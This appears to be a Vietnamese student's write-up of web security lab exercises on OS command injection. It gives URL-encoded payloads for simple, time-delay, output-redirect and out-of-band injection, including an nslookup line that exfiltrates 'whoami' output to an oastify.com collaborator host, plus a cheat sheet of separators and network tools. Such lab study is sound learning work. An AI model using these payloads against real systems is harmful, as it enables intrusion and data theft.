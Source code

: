 # OS Command injection

## Lab: OS command injection, simple case

- Bài lab này mục tiêu của chúng ta là sẽ tấn công command injection vào phần `check stock` của trang web. Khi em thử tính năng `check stock` và bắt lại 1 req với burp em có được

![Alt text](image/image.png)

- Với phần `productId` và `StoreId` em nghĩ có thể sửa để chèn thêm command vào. Ở đây em đã thử sửa `StoreId` thành 

```
& whoami & => %26%20whoami%20%26
```

- Để nó được trở thành value của param thì em sẽ phải sử dụng URL encoding cũng để phù hợp với trang web hơn.

![Alt text](image/image-1.png)

## Lab: Blind OS command injection with time delays

- Bài này đã `blind command injection` tức là mọi kết quả dù là với query ban đầu đều không thể hiển thị kết quả lên màn hình. Từ đây em nghĩ phải sử dụng `time delay` để phát hiện xem code đã được thực thi hay chưa.

-Với một feedback cơ bản thì nó sẽ có param như bên dưới.

![Alt text](image/image-2.png)

- Em sẽ chèn thêm command vào phần email tuy nhiên ở đây không sử dụng cú pháp `&` mà là cú pháp `||` 

> || ở đây sẽ thực hiện command ở đằng sau khi mà command đằng trước bị lỗi không thực hiện được

- Khi em sửa req với param của giá trị `email` thành 

```
ping -c 10 8.8.8.8 => %7c%7c%20ping%20-c%2010%208.8.8.8%20%7c%7c
```

- Thì sẽ execute được 10 lần ping rồi mới trả về kết quả nên nó sẽ lâu hơn

![Alt text](image/image-3.png)

## Exploiting blind OS command injection by redirecting output

- Dạng bài này cũng giống như dạng blind trên vì khi ta nhập kết quả trang web chỉ trả về giá trị `successfully` chứ không hiển thị thêm bất cứ giá trị nào.

![Alt text](image/image-4.png)

- Đầu tiên em vẫn sẽ tìm giá trị có thể  inject command vào.
Em sẽ sử dụng lệnh:

```
|| ping -c 10 8.8.8.8 || => %7c%7c%20ping%20-c%2010%208.8.8.8%20%7c%7c
```

- Hai giá trị `||` chỉ thực hiện khi command đằng trước chắc chắn sai thì command đằng sau sẽ thực hiện

![Alt text](image/image-5.png)

- Em đã tìm được tại biến `email` có thể thực hiện `command injection`.

![Alt text](image/image-6.png)

- Sau đó em sử dụng chức năng tìm ảnh `filename?image/image=whoami.txt` để đọc nội dung file.

![Alt text](image/image-7.png)

## Lab: Blind OS command injection with out-of-band interaction

- Ở lab này họ có cho em biết là các yêu cầu gửi đi được thực hiện không đồng bộ nên có thể thông tin sẽ không được hiển thị hoặc không thể chuyển hướng đến các vị trí mà mình có thể truy cập.

- Em nghĩ sẽ sử dụng `Burp collab` để làm 1 máy chủ trung gian kiểm soát các request của em đến server.

- Sau khi test các chức năng của chức năng `submit feedback` em thấy mình có thể chèn inject vào phần `email`.

- Command của em sẽ là

```
|| nslookup 468qio1tiiveu1pxz0m2vpcqbhh85zto.oastify.com || => %7c%7c%20nslookup%20468qio1tiiveu1pxz0m2vpcqbhh85zto.oastify.com%20%7c%7c
```

- Sau đó em check ở trên `Burp Collab` và thấy tên miền DNS đã được trả về 

![Alt text](image/image-8.png)

## Lab: Blind OS command injection with out-of-band data exfiltration

- Ở lab này họ có cho em biết là các yêu cầu gửi đi được thực hiện không đồng bộ nên có thể thông tin sẽ không được hiển thị hoặc không thể chuyển hướng đến các vị trí mà mình có thể truy cập.

- Tiếp tục sử dụng `Burp Collab` để làm 1 máy chủ trung gian kiểm soát các request của em đến server.

- Sau khi test các chức năng của chức năng `submit feedback` em thấy mình có thể chèn inject vào phần `email`.

- Em sẽ sử dụng command để có thể chèn luôn cả câu lệnh `whoami` vào phần hiển thị DNS của `nslookup`.

```
|| nslookup `whoami`.78dtkr3wklxhw4r013o5xsetdkjc72vr.oastify.com => %7c%7c%20nslookup%20%60whoami%60.78dtkr3wklxhw4r013o5xsetdkjc72vr.oastify.com%20%7c%7c%20|| 
```

![Alt text](image/image-9.png)

- Kiểm tra `Burp collab` em đã thấy hiển thị được tên người dùng + server ở trong phần payload:
 
![Alt text](image/image-10.png)

## Ways of injecting OS commands

- Một số cách để thực thi nhiều command cùng 1 lúc. Những kí tự phân tách lệnh này hoạt động trên cả Window và Unix:

```
& 
&&
|
||
```

- Một số kí tự phân tách lệnh chỉ hoạt động trên Unix:

```
;
Newline(\n or 0x0a)
```

- Một số cú pháp để thực thi command bên trong nó:

```
`inject command`
$(inject command)
```

## Blind Command Injection

### Out-Of-Band (OOB)

Sử dụng các câu lệnh làm việc với máy chủ:

- ping
- telnet
- curl
- wget
- nslookup
- dig
- trace
- netcat / nc
- ftp
- ssh

Máy chủ không có DNS, thì không phân giải được tên miền, sử dụng các lệnh làm việc với IP (ping).
Máy chủ không có kết nối Internet ra ngoài thì sử dụng các hàm làm `Sleep`.

> Một số trường hợp phải sử dụng đường dẫn tuyệt đối vì có thể các biến môi trường không hoạt động. Ví dụ, `/sbin/ping` thay cho `ping`.





